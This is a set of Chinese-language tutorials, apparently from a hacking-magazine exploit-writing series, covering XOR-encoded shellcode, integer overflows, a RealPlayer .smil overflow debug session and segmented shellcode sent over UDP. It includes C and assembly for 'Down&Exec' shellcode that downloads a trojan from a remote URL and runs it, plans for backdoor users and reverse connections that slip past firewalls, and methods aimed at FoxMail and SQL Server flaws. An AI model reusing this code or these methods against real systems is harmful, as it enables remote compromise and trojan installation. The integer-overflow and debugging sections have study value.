其中，buffer 指向的是 buff2 所指的缓冲区，IllegalChar 所指的字符串为程序命令行的第 3 个参数，GetNumOfIllegalChar() 返回的是不包括“\x00”在内的非法字符数。我们把这个函数放在 ShellCodeGenerator() 里调用，所以得再给 ShellCodeGenerator() 添加第 3 个参数，让它接受程序第 3 个命令行参数。

```c
void ShellCodeGenerator(char *file, char *xorchar, char *specialchar)


```

详细的源代码参照附件 encodeshellcode.cpp。对选取的 XOR 值只要能避开“\x00”和非法字符即可，比如 0x96 不行，换 0x97，如果还不行，换 0x99，直到可行为止。只要受限字符不是太多，总会得到适合的 XOR 值的。

最后得到我们的加密 ShellCode 程序。假如用上面 CMD 文件做试验，“0x99”做 XOR 值，受限字符为“\\:()|”，那么在命令行下就可以这样使用：

`encodeshellcode.exe CMD 0x99 \:()|`

得到结果如图 5 所示。
看反白部分，指出有一个不合法字符。那按 0x97 试试：

`encodeshellcode.exe CMD 0x97 \:()|`

得到结果如图 6 所示。再打开生成的 ShellCode.txt，如图 7 所示。
哈哈，这就是我们可用的编码过的 ShellCode 了！本文介绍的编程实现虽然很简单，而且在编码这里也存在一定的局限性，但大家可以发挥你们的聪明才智，将其改进完善，相信一定会非常实用。真诚希望本文能够给正在学习缓冲区溢出和 ShellCode 技术的你一点帮助。

## WTF:

一般的 ShellCode 都很短小精悍，所以包含的功能并不多。如果需要包含一些特定的功能或者需要有更多的功能，就需要写大量的代码，但这样写出来的 ShellCode 很容易出错。那么有没有别的办法来减少这种错误，而且还能让代码精悍一些呢？

- 适合读者：溢出爱好者、入侵爱好者
- 前置知识：汇编基础、C 基础

## 打造 Down&Exec 的 ShellCode
最近研究 Windows 环境下的溢出，发现写 ShellCode 好难，主要是有高级功能的 ShellCode 要用的函数太多了，写下去很容易出错。写点加用户的代码还行，如果直接写个功能强大的后门的话，那代码量会非常庞大。弄不好写错一句麻烦就大了。于是我就想，我干脆先在网上放个木马，再把 ShellCode 写成自动从网上下载木马并运行，不就搞定啦？下面看具体的实现方法。

我在 MSDN 中淘了半天，终于淘到一个符合要求又好用的函数 URLDownloadToFile()。URLDownloadToFile 的函数介绍如下：

```c
HRESULT URLDownloadToFile(
  LPUNKNOWN pCaller,
  LPCWSTR   szURL,
  LPCWSTR   szFileName,
  DWORD     dwReserved,
  LPBINDSTATUSCALLBACK lpfnCB
);
```

参数说明：pCaller 可置 NULL；szURL 为下载文件 URL（绝对路径）；szFileName 为保存到本地文件名（绝对路径）；dwReserved 必须为 0；lpfnCB 为下载进度回调，可置 NULL。

运行木马也需要一个函数 `WinExec()`，其参数如下：

```c
UINT WinExec(
  LPCSTR lpCmdLine,   // 要执行的命令或程序
  UINT uCmdShow       // 窗口式样，我们不需要窗口，置 NULL
);
```

先用 VC 来实现我们要的功能，代码如下：

```c
void main()
{
    // 因为 URLDownloadToFile() 函数在 URLMON.dll 库里，所以我们要先加载它
    LoadLibrary("URLMON");
    // WinExec 是在 Kernel32.dll 库里
    LoadLibrary("Kernel32");
    // 下载木马
    URLDownloadToFile(NULL, "http://www.honker.gov.cn/muma.exe", "C:\\muma.exe", 0, NULL);
    // 运行木马
    WinExec("c:\\muma.exe", NULL);
}
```

很简单吧？下面我们来把它做成 ShellCode。出于 ShellCode 的通用性考虑，我们要用汇编来写这个程序。不啰嗦了，看代码：

```asm
void main()
{
  __asm {
    // 这里引用一下自动查找 LoadLibraryA 地址的代码
    mov eax, fs:[0x30]
    mov eax, [eax+0x0c]
    mov esi, [eax+0x1c]
    lodsd
    mov eax, [eax+0x08]
    ...
    ; 通过比较 "PteG" / "Acor" 来定位 GetProcAddress
    ...
  }
}
```

上面就是 ShellCode 能在各平台通用的最关键部分，非常经典。下面我们就利用上面得到的函数地址来写我们的 ShellCode。首先是 `LoadLibrary("URLMON")`：

```asm
push dword ptr 0x00004e4f
push dword ptr 0x4d4c5255
push esp
call [ebp+44h]      ; LoadLibrary("URLMON")
mov edi, eax        ; edi=URLMON 库的地址
```

下面就是找 `URLDownloadToFile()` 和 `WinExec()` 的地址：

```asm
push dword ptr 0x00636578
push dword ptr 0x656e6957
push esp
push edi
call [ebp+40h]       ; GetProcAddress(...,"WinExec")
mov [ebp+4h], eax
...
push dword ptr 0x00000065
push dword ptr 0x6c69466f
push dword ptr 0x546f6c6e
push dword ptr 0x6f646e77
push dword ptr 0x444c5255
push esi
push edi
call [ebp+40h]       ; GetProcAddress(...,"URLDownloadToFile")
mov [ebp+8h], eax
```

然后我们调用函数。注意把函数参数按从右到左顺序压栈，不过应先在内存里构造调用函数时所需的字符串：

```asm
mov byte ptr [ebp-30h], 68h ; h
mov byte ptr [ebp-2Fh], 74h ; t
mov byte ptr [ebp-2Eh], 74h ; t
mov byte ptr [ebp-2Dh], 70h ; p
mov byte ptr [ebp-2Ch], 3Ah ; :
mov byte ptr [ebp-2Bh], 2Fh ; /
mov byte ptr [ebp-2Ah], 2Fh ; /
...
mov byte ptr [ebp-13h], 2Eh ; .
mov byte ptr [ebp-12h], 65h
mov byte ptr [ebp-11h], 78h
mov byte ptr [ebp-10h], 65h
mov byte ptr [ebp-0Fh], 00h
mov byte ptr [ebp-0Eh], 43h
mov byte ptr [ebp-0Dh], 3Ah
mov byte ptr [ebp-0Ch], 5Ch
mov byte ptr [ebp-0Bh], 6Dh
mov byte ptr [ebp-0Ah], 75h
mov byte ptr [ebp-09h], 6Dh
mov byte ptr [ebp-08h], 61h
mov byte ptr [ebp-07h], 2Eh
mov byte ptr [ebp-06h], 65h
mov byte ptr [ebp-05h], 78h
mov byte ptr [ebp-04h], 65h


```

我说了吧？把那些机器码 Copy 下来就大功告成了！
代码写完了，剩下的就是抄 ShellCode 了，在 BC 里按 F10 进入调试，然后在出现的 Debug 工具栏里点“Disassembly”按钮（如图 1 所示），然后点鼠标右键选“Code Bytes”，就可以看到机器码和汇编码了（如图 2 所示）。

适合读者：溢出新手，系统漏洞研究者  
前置知识：汇编基础知识，C 基础

## 菜鸟版 Exploit 编写指南之十四：

## Windows 整数溢出初步

文/图 曾军 / danggulai27
掐指算来，学习和研究溢出技术已经一年半了。这段时间里，调试和利用了不少的栈、堆溢出漏洞，RPC 栈、堆两个溢出漏洞，SQL 解析服务溢出漏洞，Serv-U MDTM 溢出漏洞，以及 WorkStation、Foxmail、LSA、RealPlayer 等，技术上可算受益匪浅。另一方面，我们的知识面不能局限于堆和栈溢出领域里，其实整数溢出、文件流溢出、C++ 中溢出覆盖虚函数指针技术等其他溢出技术在漏洞攻击中也是很有用的。其中整数溢出技术在很多时候会间接导致缓冲区溢出的产生……下面就让我们一起来对整数溢出技术有个初步的认识。

#### 整数及整数溢出

关于整数的概念，应该说我们在上中学的时候就学过了。这里我们需要了解的是：整数分为无符号和有符号两类，其中有符号整数负数最高位为 1，正整数最高位为 0，无符号整数无此限制。此外，常见的整数类型有 8 位、16 位、32 位以及 64 位等。对于本文来说，了解这些就基本足够了。关于整数溢出，简而言之，就是往存储整数的内存单位中存放的数据大于该内存单位所能存储的最大值，从而导致了溢出。

```c
/* 整数溢出示例1 */
#include "stdio.h"
int main()
{
    int nIn;              // 32bits
    unsigned short sOut;  // 16bits

    printf("nIn:");
    scanf("%d", &nIn);
    sOut = nIn;

    printf("sOut:%d\n", sOut);
    return 0;
}


```

当整型变量 nIn 输入小于 sOut 的最大值 65535 时，输出正常。否则，输出的值是对 65536 取模得到的，如图 2 所示。上面只是说明整数溢出的一个简单例子，归根到底，造成整数溢出漏洞的根本原因还是我们编程人员由于自身疏忽而对整数进行了错误操作引起的。

#### 整数误操作

一般说来，主要有 3 类整数操作可以导致安全性漏洞。下面列出每类的典型例子。
图 2

- 1. 无符号整数的下溢和上溢

无符号整数的下溢问题是由于无符号整数不能识别负数所导致的。示例代码如下：

```cpp
BOOL fun(size_t cbSize)
{
    if (cbSize > 1024)
        return FALSE;
    char *pBuf = new char[cbSize - 1];
    // 未对 new 的返回值进行检查
    memset(pBuf, 0x90, cbSize - 1);
    ......
    return TRUE;
}
```

在上面代码中，在调用 new 分配内存后，程序未对调用结果的正确性进行检测，如果 cbSize 为 0 的话，则 cbSize-1 为 -1；但是 memset 中第 3 个参数本身是无符号数，因此会将 -1 视为正的 0xffffffff，函数执行之后程序当然就只有崩溃了。

无符号整数的上溢问题也不难理解，示例代码如下：

```cpp
BOOL fun(char *s1, size_t len1, char *s2, size_t len2)
{
    if (len1 + len2 + 1 > 1024)
        return FALSE;
    char *pBuf = new char[len1 + len2 + 1];
    if (pBuf == NULL)
        return FALSE;
    memcpy(pBuf, s1, len1);
    memcpy(pBuf + len1, s2, len2); // 可能造成程序崩溃
    ......
    return TRUE;
}
```

本例子中代码看起来没什么问题，该检测的地方也都检测了。但这段代码却可能出现整数上溢问题，len1 和 len2 都是无符号整数，如果 len1=8，len2=0xffffffff，由于加操作的限制，8+0xffffffff+1 产生的结果是 8，也就是说 new 操作只分配 8 字节的内存，而后面却要进行长达 0xffffffff 的字符串拷贝工作，结果肯定也是程序崩溃。

- 2. 符号的问题

符号问题可以是多种多样的，但有几点是应该注意的：

- ① 有符号整数之间的比较。
- ② 有符号整数的运算。
- ③ 无符号整数和有符号整数的对比。

这里举一个典型的例子。

```cpp
int copy_something(char *buf, int len)
{
    char szBuf[800];
    if (len > sizeof(szBuf))  /* [1] */
    {
        return -1;
    }

    return memcpy(szBuf, buf, len);  /* [2] */
}
```

上面代码的问题在于 memcpy 使用无符号整数作为 len 参数，但是在之前的数据边界检测使用了有符号整数。假设提供一个负数的 len，这样可以绕过 [1] 的检测，但是这个值同样被使用在 [2] 的 memcpy 函数参数里面，len 可能被转换成一个非常大的正整数，导致 buf 缓冲区后面的数据被重写，进而使得程序崩溃。

- 3. 截断的问题

截断问题主要发生在大范围整数（如 32 位）拷贝给小范围整数（如 16 位）的时候可能产生。同样来看一个例子：

```cpp
BOOL fun(byte *name, DWORD cbBuf)
{
    unsigned short cbCalculatedBufSize = cbBuf;
    byte *buf = new byte[cbCalculatedBufSize];
    if (buf == NULL)
        return FALSE;
    memcpy(buf, name, cbBuf);
    ......
    return TRUE;
}
```

如果 cbBuf 是 0x00010020，又会如何呢？cbCalculatedBufSize 只有 0x20，因为只从 0x00010020 复制了低 16 位。因此，仅分配了 0x20 个字节，却要把 0x00010020 字节复制到新分配的目标缓冲区中。

如果整数溢出发生，之后的所有相关操作的结果都将发生变化。与缓冲区溢出不同的是，整数溢出发生时不会马上发生异常，即使程序执行结果与预期不同，也很不容易发现问题所在。

前面提到，整数溢出在很多时候会导致缓冲区溢出漏洞的发生，包括堆栈溢出和堆溢出。但并不是所有由整数溢出导致的缓冲区溢出都是可以利用的。相反，大多数情况是不能利用的，原因就在于其中涉及到诸如近乎 4GB 这样的大内存操作，会发生段错误。下面针对可以利用的堆栈和堆溢出，分别举例。

#### 整数溢出：堆栈溢出及简单利用例子

由整数溢出导致的可利用堆栈溢出的示例代码如图 3 所示。

```c
char *overflow[] = {...};
BOOL fills(int i) {
    unsigned short s;
    char szBuf[8];
    s = i;
    if (s > 8) return FALSE;
    if (i > sizeof(overflow))
        memcpy(szBuf, overflow, sizeof(overflow));
    else
        memcpy(szBuf, overflow, i);
    return TRUE;
}

int main(int argc, char *argv[]) {
    int i;
    if (argc != 2) return -1;
    i = atoi(argv[1]);
    fills(i);
    return 0;
}


```

图 3

当输入超过 unsigned short 范围（如 65538），在执行 `s = i` 后发生了 unsigned short 溢出，此时得到的 s 为 `65538 % 65536 = 2`，从而躲避了后面的边界检测。继续往下执行时发生异常，如图 4 所示。
图 4

可见，已经将函数 fills 的返回地址覆盖为我们可以控制的数据 `0x90909090`。我们这时可以像一般的堆栈溢出利用那样利用该漏洞了，这里不再多讲。尽管这样的例子在实际中几乎不出现，但它却有效地演示了由整数溢出导致堆栈溢出的原理和过程，对于以后我们分析真实漏洞有所帮助。

#### 整数溢出：堆溢出及简单利用例子

由整数溢出导致的堆溢出的示例代码如图 5 所示。

```c
#include "windows.h"
#include "stdio.h"
#include "winsock.h"

#pragma comment(lib, "ws2_32")

int main(int argc, char **argv)
{
    int nTotal;
    unsigned short sAlloc;
    char *pBuf1, *pBuf2;

    HANDLE hHeap = HeapCreate(HEAP_GENERATE_EXCEPTIONS, 0x1000, 0xffff);

    nTotal = atoi(argv[1]);
    sAlloc = nTotal - 2;

    pBuf1 = (char*)HeapAlloc(hHeap, 0, sAlloc);
    pBuf2 = (char*)HeapAlloc(hHeap, 0, 32);

    HeapFree(hHeap, 0, pBuf1);
    HeapFree(hHeap, 0, pBuf2);

    return 0;
}


```

图 5

细心的读者很快就可以发现，上面这个例子其实和 JPEG 堆溢出漏洞的原理差不多。当输入为 1 时，用于分配内存的参数 sAlloc 为 -1，但 unsigned short 类型却无法识别负数，从而认为是正数 `0xffff`，分配了超大的内存块，从而覆盖了后面的堆管理结构。

翻开最近一年内的漏洞公告，发现关于整数溢出方面的漏洞还真不少。就拿 Windows 下的漏洞来说吧，除了上面的 JPEG 处理漏洞外，还有 LoadImage API 溢出漏洞、PuTTY SFTP 客户端包解析整数溢出漏洞、camel-lock-helper 整数溢出漏洞等。其中 camel-lock-helper 漏洞来自 Evolution，这是一款类似 Microsoft Outlook 的 GNOME 应用程序。Evolution 包含的 camel-lock-helper 应用程序存在一个整数溢出，本地和远程攻击者可以利用这个漏洞获得 "mail" 组特权：本地攻击者可以提升特权，远程攻击者可以设置恶意 POP 服务器诱使用户使用 Evolution 连接，可导致以 "mail" 组权限在系统上执行任意指令。而且在 Linux 等其他操作系统下也有不少这样的漏洞。为了结合前面知识，这里简单介绍一些 LoadImage API 溢出漏洞的触发原理。

Windows 的 USER32 库的 LoadImage 系统 API 存在着整数溢出触发的缓冲区溢出漏洞。这个 API 允许加载 bmp、cur、ico、ani 格式的图标来进行显示，并根据图片格式里说明的大小加 4 来进行数据拷贝；如果将图片格式里说明的大小设置为 `0xfffffffc-0xffffffff`，则将触发整数溢出，导致堆缓冲区被覆盖。攻击者可以构造恶意的 bmp、cur、ico、ani 格式文件，嵌入到 HTML 页面、邮件中发送给被攻击者，成功利用该漏洞则可以获得系统权限。

由此可见，该漏洞是一个由整数溢出导致堆溢出的典型例子。相关技术细节如图 6 所示。

| 项目 | 内容 |
|---|---|
| 1. 漏洞描述 | Windows 的 USER32 的 LoadImage 系统 API 存在整数溢出触发的缓冲区溢出漏洞；可加载 bmp/cur/ico/ani 图标；根据格式字段大小进行拷贝时可被构造值触发溢出并覆盖堆缓冲区。 |
| 2. 技术细节 | LoadImage 函数相关定义与触发条件（图中给出摘要）。 |

图 6

#### 小结

大家平时都注重普通的缓冲区溢出，特别是堆栈溢出技术，对于整数溢出等其他技术更多的是避而不谈。本文的目的是和大家一起来对整数溢出有个初步的认识，因此讲的大多是基础性的东西，举的例子也很简单。同时介绍了一些真实的整数溢出漏洞，有兴趣的朋友可以进行调试和利用，说不定可以有很多新发现。

- 适合读者：溢出爱好者，系统安全爱好者  
- 前置知识：WIN32 溢出基础

### 菜鸟版 Exploit 编写指南之十五：RealPlayer.smil 文件溢出漏洞分析（续）

文／图  曹军 / dangguai27
在《RealPlayer 溢出分析+利用》一文中，我在简单分析了漏洞的原理后，提到了直接覆盖漏洞程序中线程相关的异常处理指针（SEH）来编写攻击代码。实践证明这种方法本身是可行的，尤其在无法定位函数返回地址 EIP 在堆栈中位置的情况下建议采用。但是当时的分析有一些东西并没有给出合理的说法，例如为何跟踪不了公告中给出的 strcpy() 函数，SoftICE 拦截不了非法的返回地址（如 EIP = 0x90909090），溢出点究竟是怎样定位的等一些问题。既然分析问题，就应该尽量分析清晰，这样才能扎扎实实地进步。于是这两天工作之余有时间我就继续跟踪，解决了这些问题。结合上次的分析，下面和大家一起来看看这个漏洞究竟是怎样触发的，也算是对上次分析的一个补充吧。

按 Ctrl+D 回到 Windows 下，打开 SoftICE 的 symbol loader。看看 loaded symbols 这一项中是否包含了 ntdll.dll，如果没有，则通过 File->Load Exports 在 system32 下加载 ntdll.dll，如图2所示。
图2

#### 工具准备

安装中文版 RealPlayer10（中国人嘛，感觉还是自己的语言看着舒服一点），内部版本为 6.0.12.857，如图1所示。当然，也可以安装公告中的其他有漏洞的版本。
图1

安装 SoftICE，我个人觉得这个在调试溢出漏洞中的作用最大。查看 RealPlayer10 相关输入函数，反汇编工具 WDASM32 简单、实用。最后，按照 .smil 文件格式构造具有溢出漏洞的 .smil 文件 test.smil，注意设置其 screen-size 属性为 1700 字节的 0x90，这个在上次分析中有比较详细的介绍，大家可以进行对照。

OK，工具准备好之后，下面进行调试，步骤我写得比较详细，大家可以一步步跟着做就可以了。

#### 调试方法及过程

打开 SoftICE，如果字体很小，则可通过 `set font 2` 命令来将显示的字体放大。

按 Ctrl+D 进入 SoftICE 空间，设置断点 `Bpx ntdll!KiUserExceptionDispatcher`，该命令的功能是程序运行到 ntdll.dll 中的 KiUserExceptionDispatcher 函数就停下来。KiUserExceptionDispatcher 函数是 Windows 异常处理中很重要的一个函数，它负责派发用户空间所有异常的处理函数地址到异常链中，因此每当用户层发生异常的时候就会调用这个函数（嘿嘿，这里有很多东西都是跟 iSNO 学的）。

回到 Windows 下，打开前面安装的 RealPlayer10，从“文件->打开”中选中并打开刚才生成的 test.smil。很快弹出 SoftICE，并停留在 KiUserExceptionDispatcher 函数开始处，这时用命令 `d*(esp+4)+b8` 来看异常发生时的 EIP。有点云里雾里？其实很简单。

| 偏移 | 寄存器 | 偏移 | 寄存器 |
|---|---|---|---|
| 0x8c | GS | 0x90 | FS |
| 0x94 | ES | 0x98 | DS |
| 0x9c | EDI | 0xa0 | ESI |
| 0xa4 | EBX | 0xa8 | EDX |
| 0xac | ECX | 0xb0 | EAX |
| 0xb4 | EBP | 0xb8 | EIP |
| 0xbc | CS | 0xc0 | EFlags |
| 0xc4 | ESP | 0xc8 | SS |

有了这个基础知识，我们就可以继续了。上面得到的 EIP 为 `0xB9F28560`，这可能是函数的返回地址，也可能是其他指令的地址，有待进一步分析。

执行命令 `d fs:0` 查看当前线程相关异常处理函数指针位置位于 `0x0012f660`，这与我上次那篇文章中是一致的。

执行命令 `d(*(esp+4)+b4)` 得到异常发生时 EBP 的地址为 `0x0012f344`，这个地址是堆栈中的地址。

执行命令 `d(*(esp+4)+c4)` 得到异常发生时 ESP 的地址为 `0x0012f200`。执行命令 `d es:0012f200`，我们可以看到位于该地址的不远处，即 `0x0012f20c` 开始的地址就填充了我们的 `90 90 90 90...`。这时我们理一下头绪，异常发生的时候，ESP 值比填充数据 90 的首地址还低，而该首地址距 EBP 距离为 `L = 0x0012f344 - 0x0012f20c = 0x138 = 312` 字节，也就是说 RealPlayer 可能是为存放 screen-size 属性分配了 `0x138` 字节的缓存。

```asm
001b:6085f259  LEA EDI, [EBP - 0138]
001b:6085f25F  REPNZ SCASB
......
001b:6085f273  REPZ MOVSD
......
001b:6085f2b9  CMP [EAX + 8C], EBX
......


```

从上面的语句可以看出，程序的确为存放 screen-size 属性分配了 `0x138` 字节的缓存。当指令执行到 `001b:6085f273 REPZ MOVSD` 时是表示数据的拷贝，这里并不是用 `strcpy` 这样的函数，因此当然跟踪不到了。此外，当指令执行到 `001b:6085f2b9 CMP [EAX + 8C], EBX` 时，`EAX=0x90909090`，当然也会出现内存访问非法，这时就会发生异常，而等不到函数返回了。

这样，这个漏洞的分析过程就告一段落了，至于漏洞的利用，直接参考《RealPlayer 溢出分析+利用》一文就可以了。

#### 小结

通过本文，我介绍了 RealServer.smil 漏洞的调试过程，其实针对的不仅仅是这样一个本地溢出漏洞，更重要的还是介绍一种方法。毕竟，攻防是一个很广阔的领域，对于方法的总结才真正有助于大家的提高。最后，希望本文对大家以后调试各种溢出漏洞会有点帮助，也欢迎与我交流。

- 适合读者：溢出爱好者，系统安全爱好者
- 前置知识：WIN32 溢出基础

### 菜鸟版 Exploit 编写指南之十八：突破溢出数据包长度限制

*编写分段传送的 ShellCode（上）*
很高兴又和大家见面了，按照惯例，我还是先简单地回顾以前的东西。在前面文章中，我们讨论了堆栈溢出的漏洞调试与分析、常规的漏洞利用方法、突破防火墙的 ShellCode 编写、XP+SP2 和 2003 溢出保护机制的突破、商用溢出保护软件防护机制的突破等技术。下面，针对远程堆栈溢出技术，我们再看看当漏洞协议对攻击数据包长度有限制的时候，我们可以怎样去突破。

有比较深刻的印象，就是代码执行后达不到预想的效果——接收邮件的机器没有成功添加指定用户。后来在两台测试机器上截获数据包以及对 SMTP 协议逐条命令进行调试分析后，发现我们用的 SMTP 邮件服务器如 Sina、163 等，都改进了 SMTP 协议，而采用 ESMTP 协议，在 EHLO 与 MAIL FROM 命令之间，需要对 Base64 编码后的用户/口令进行验证。很快解决了 ESMTP 验证，最后终于调试成功了，成功地添加上了用户。然而成功仅此而已。对于 FoxMail 的这个漏洞，From 字段的缓冲区只开设了 `0x104` 字节的大小，而服务器最多允许用户向 From 字段发送 `0x200` 字节，溢出数据长度上的限制让我们无法将功能更加复杂的 ShellCode 一次性发送给漏洞程序。

#### 导火线——两漏洞利用的改进失败

回溯到 2004 年的 3、4 月，那正是大家热烈讨论 FoxMail PunyLib.dll 的 From 字段溢出漏洞的时候。作为菜鸟，我们都是把牛人们公布的添加用户的代码直接下载后编译，填好参数执行。复杂的功能，更不用说覆盖 SEH 了。如图1所示。
图1

再回到 2003 年初，来看另一个例子——SQL Server 的 Resolution 溢出漏洞，针对于 SQL Server 2000 + SP2 及以下版本。Resolution（解析）服务是 SQL Server 通过 UDP 的 1434 端口向外提供实例解析。如果向这个服务发送以 `0x2`（`0x3` 或 `0x4` 也可）开头的 UDP 数据，SQL Server 会认为是合法的数据而进行解析，数据长度超过 93 个字节时由于没有进行长度检测而发生溢出。漏洞这里只是简单介绍，我们常规的利用是没问题的，溢出成功后在目标机器上监听新的端口，甚至通过反弹方式传送文件都可以。前段时间由于课题要求，需要将这个模块改写为通用的、能突破个人防火墙检测并传送木马文件的代码，这可让我为难了，因为无论我怎么压缩代码，ShellCode 功能实现没问题，但是长度上总会超过 1200 字节，而该服务允许客户端发送的最大数据长度为 1024。没办法，只能暂时作罢，这大概是我写汇编代码不够简练吧。

上面这两个例子向我们提出了一个问题：远程溢出漏洞利用中，在能编写简练汇编代码的基础上，如果 ShellCode 的功能要求复杂到其字节数远远超过漏洞一次能接收数据的最大长度的话，我们是否真的无计可施？答案当然是 NO！

#### 突破思路——结合 socket 复用，将 ShellCode 分段传送

既然一次性传送超长的 ShellCode 有问题，那我们可以将 ShellCode 分为若干段，`SC = SC1 + SC2 + SC3…`，其中，SC1 的功能相对特殊，它负责接收并组合后面的各段 ShellCode。

要实现上面这种 ShellCode 传送方式，我们再整理一下思路，流程如下。

- 1. 对整个 ShellCode 按照功能进行分段

对各段的 ShellCode 要完成的功能要有清晰的认识，并明确各段传递方式。

例如，SC1 负责接收后面的 ShellCode，SC2 负责创建后门用户，SC3~SC6 负责像 Sniffer 一样在无端口情况下监听外界数据包，而其他 SC 又负责生成新的木马文件，或者 SC2 到最后一段 SC6 的功能就是形成并执行一个大的木马等。不管它们的功能有多复杂，只要分工明确，一段一段传送，是肯定可以实现的。

关于各段 ShellCode 传送方式，可以是后面的所有段都由 SC1 来接收，也可以是每一段接收并执行后面的段，这个根据实际漏洞的情况而言。

- 2. 发送 SC1，即 ShellCode 的第一部分

SC1 的功能是：先动态获取整个 ShellCode 所需 API 函数的地址，然后查找当前连接的通信 socket，并通过该 socket 来接收后面的各段 ShellCode，组织并执行后面的 ShellCode。因此，SC1 的地位是很重要的：既要它能够至少接收并执行后面一段 SC2，又要满足数据的长度限制。

- 3. 依次发送各段 ShellCode

后面的各段 ShellCode 的传送和执行方式前面已经说过，根据漏洞利用的实际要求来选择你自己的处理方式。但是最后一段 ShellCode 功能完成后一定要注意安全退出，避免对目标系统造成明显的影响。

#### 模拟实现——漏洞代码示例

好了，下面给出一个问题程序：

```c
/* 测试程序 */
#include "windows.h"
#include "winsock.h"
#include "stdio.h"
#pragma comment(lib, "ws2_32")
void fun(char *szIn)
{
    char szBuffer[100];
    memset(szBuffer, 0, 100);
    strcpy(szBuffer, szIn); // 溢出发生
    printf("%s\n", szBuffer);
    return;
}

int main(int argc, char *argv[])
{
    if(argc != 3)
    {
        printf("usage: %s ip bindport\n");
        return -1;
    }

    WSADATA wsa;
    SOCKET sSock;
    sockaddr_in srv;
    int len;
    char szBuf[1024] = {0};
    int nRcv;
    BOOL bFinish;
    int nPort;

    nPort = atoi(argv[2]);
    if(WSAStartup(MAKEWORD(2, 0), &wsa) != 0)
    {
        printf("Winsock init Error! ErrorCode = %d\n", WSAGetLastError());
    }

    sSock = socket(AF_INET, SOCK_DGRAM, IPPROTO_UDP); // UDP
    if(sSock == INVALID_SOCKET)
    {
        printf("Creating socket Error! ErrorCode = %d\n", WSAGetLastError());
    }

    srv.sin_family = AF_INET;
    srv.sin_port = htons(nPort);
    srv.sin_addr.S_un.S_addr = inet_addr(argv[1]);
    len = sizeof(srv);

    if(bind(sSock, (sockaddr *)&srv, sizeof(srv)) != 0)
    {
        printf("Bind Error! ErrorCode = %d\n", WSAGetLastError());
    }

    while(true)
    {
        nRcv = recvfrom(sSock, szBuf, sizeof(szBuf) - 1, 0, (sockaddr *)&srv, &len);
        if(nRcv > 0)
        {
            fun(szBuf);
            bFinish = TRUE;
        }

        if(bFinish)
        {
            break;
        }
    }

    return 0;
}


```

程序很简单，就是一个 UDP 服务端，绑定你指定的一个 UDP 端口，有用户输入的话，就接收数据，处理后程序退出。服务端有防火墙，假设只允许外部访问这个 UDP 端口，任何向外的 TCP 连接都会告警，我们如果想通过溢出漏洞向服务端传送一个木马文件，并且要成功躲避防火墙检测，写出的 ShellCode 长度应该会超过 recvfrom 函数的 1024 字节的限制。

由于时间有限，这里先把这个问题留下来，大家可以先根据漏洞程序的特点和前面说的思路进行分析，看能否实现我们的入侵目的。在下面这篇文章中，我再和大家一起进行 ShellCode 的实现。还是那句话，欢迎大家和我交流，留下 QQ：19013788。

- 适合读者：溢出爱好者，系统安全爱好者
- 前置知识：WIN32 溢出基础

### 菜鸟版 Exploit 编写指南之十七：突破溢出数据包长度限制——编写分段传送的 ShellCode（下）
文／图 曹军 / danggui27

在上面的文章中，我们讨论了分段传送的 ShellCode 的应用环境和编写基本思路，并在最后留了一个存在溢出漏洞的测试程序，希望大家能自己写代码来利用，不知道大家感觉怎么样。今天呢，我们就一起来针对这样一个漏洞程序，结合分段传送 ShellCode 的思想，一步一步编写我们的攻击程序。

#### 漏洞程序的修正以及利用方案分析

上次给出的漏洞程序，当时由于时间关系，没有做仔细的分析与测试，后来在调试的时候发现一点问题，现在作略微修改。

- 1. 代码绑定的 UDP 端口定为 999 端口，并设置端口绑定为独占：

```c
srv.sin_port = htons(999);
BOOL flag = TRUE;
int SO_EXCLUSIVADDRUSE = ~SO_REUSEADDR;
// 取反
setsockopt(sSock, SOL_SOCKET,
SO_EXCLUSIVADDRUSE, (const char *)&flag, 4);
```

- 2. UDP 套接字 recvfrom 函数指定的接收缓冲区大小减少到 600 字节，这样更加限制了我们一次性发送 ShellCode 的字数：`char szBuf[600] = {0};` 其他一些次要的修改，大家可以参照光盘中的代码。此外，我们还提到了个人防火墙的绕过问题。

注意了，针对具体一个漏洞写攻击代码的时候可能有多种实现方案，但只要很好地把握了漏洞的特点，仔细分析，我们往往就能找出最佳的一条路子。针对这个漏洞，要编写通用的、能自动传送并执行木马的攻击代码，需要考虑的地方无非有 3 点。

- ★ 一次性发送 ShellCode 的可行性：recvfrom 函数指定的缓冲区大小为 600 字节，其中用于前面局部变量的大约 100 字节，再加上一些跳转指令，可利用来装 ShellCode 的长度约 500 字节左右，而且还包括 ShellCode 解码部分的 20 几个字节，因此将攻击代码分两段来传送是必要的。
- ★ UDP 通信的特性：UDP 不面向连接，我们无法通过 getpeername 这样的函数获取通信对方 IP 和端口信息，也无法像 TCP 通信那样通过查找当前连接对应的 Socket 来复用。
- ★ 防火墙的绕过：一般绕过个人防火墙检测的方法是复用当前连接对应的 Socket，这在 TCP 通信中有用，本例不适用。重复绑定服务端口在 TCP 和 UDP 中都适用（只要用 bind 函数），但本例中仍然不行，因为设置了 socket 的 SO_EXCLUSIVADDRUSE 属性。

设置了 SO_EXCLUSIVADDRUSE 属性的，不允许 UDP1434 端口重复绑定。我们写这个例子的初衷就是基于 SQL Server 那个漏洞的，因此这里也这样设置。如果以后我们遇到新漏洞是允许重复绑定的，那么就正好利用了。还有就是在老的 SDK 中没有 SO_EXCLUSIVADDRUSE 的定义，我就直接定义了一个变量对 SO_REUSEADDR 取反得到。

重新绑定服务端口。这个是 UDP 中可以实现的，但是需要的代码很长，估计远远超过我们的 500 字节限制了。

创建 IE 子进程，然后将我们的代码注入进去，这个恐怕也早就超过长度限制了。

直接反向连接攻击端监听的 TCP 80 端口。

呵呵，前面 4 条路好像都堵死了。尽管防火墙要报警，但在攻击端监听 TCP 80 端口，反连的时候目标用户可能不是很在意而放行，因此看来第 5 条最可行。

综合起来看，我们要写这个漏洞程序的利用代码，方案就是：在攻击端监听 TCP 80 端口，发送第一段 ShellCode 后，等待 ShellCode 执行后反向连接攻击端，然后发送第二段 ShellCode，最后由第二段 ShellCode 来接收并执行木马文件。

```asm
call [ebp + 2ch]
mov [ebp + 38h], eax
// 最后查找 recv
mov dword ptr [ebp], 'vcer'
mov byte ptr [ebp + 4], 0
push ebp
push ebx
call [ebp + 2ch]
mov [ebp + 3ch], eax
```

#### ShellCode 的打造

先后发送的两段 ShellCode（后称为 SC1 和 SC2），都是在 VC6 下面汇编提取的。对于 SC1，我们需要注意的是尽量精简。养成简短而规范的 ShellCode 编写习惯对我们以后利用各种漏洞都是有帮助的。就这个例子而言，SC1 功能很明确：接收后面的 SC2，并且跳到 SC2 去执行。为此，我们的汇编代码需要做以下几件事情。

